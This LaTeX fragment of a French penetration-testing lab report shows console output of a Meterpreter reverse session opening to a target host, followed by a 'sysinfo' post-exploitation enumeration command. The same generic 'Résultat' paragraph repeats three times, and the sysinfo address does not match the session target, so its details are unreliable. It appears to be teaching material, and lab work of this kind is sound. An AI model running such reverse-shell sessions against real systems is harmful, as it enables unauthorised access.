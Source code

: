 \documentclass[12pt,a4paper,openany]{report}
\begin{document}
	\textbf{Résultat :} Cette sortie confirme l'exécution correcte de l'action pratique dans l'environnement de laboratoire. Elle apporte des éléments vérifiables pour contrôler l'état du service, du flux ou de la configuration avant l'étape suivante. Sur le plan pédagogique, elle relie l'opération réalisée aux objectifs d'apprentissage offensive/défensive.
	
	
	\subsubsection{Établissement de la Session}
	
	\begin{lstlisting}[style=logstyle,caption=Connexion Meterpreter Réussie]
		[*] Sending stage (3090404 bytes) to 192.168.100.6
		[*] Meterpreter session 1 opened (192.168.100.150:4445 -> 192.168.100.6:39218)
		at 2026-03-14 10:47:03 UTC
		
		(Meterpreter 1)(/tmp) >
	\end{lstlisting}
	
	\textbf{Résultat :} Cette sortie confirme l'exécution correcte de l'action pratique dans l'environnement de laboratoire. Elle apporte des éléments vérifiables pour contrôler l'état du service, du flux ou de la configuration avant l'étape suivante. Sur le plan pédagogique, elle relie l'opération réalisée aux objectifs d'apprentissage offensive/défensive.
	
	
	\textcolor{green}{\checkmark} \textbf{Succès !} Nous disposons désormais d'une session Meterpreter stable et interactive.
	
	\subsection{Énumération Post-Exploitation}
	
	\subsubsection{Informations Système}
	
	\begin{lstlisting}[caption=Commande sysinfo]
		(Meterpreter 1)(/tmp) > sysinfo
		Computer     : 192.168.10.100
		OS           : Ubuntu 25.04 (Linux 6.14.0-37-generic)
		Architecture : x64
		BuildTuple   : x86_64-linux-musl
		Meterpreter  : x64/linux
	\end{lstlisting}
	
	\textbf{Résultat :} Cette sortie confirme l'exécution correcte de l'action pratique dans l'environnement de laboratoire. Elle apporte des éléments vérifiables pour contrôler l'état du service, du flux ou de la configuration avant l'étape suivante. Sur le plan pédagogique, elle relie l'opération réalisée aux objectifs d'apprentissage offensive/défensive.
	
\end{document}
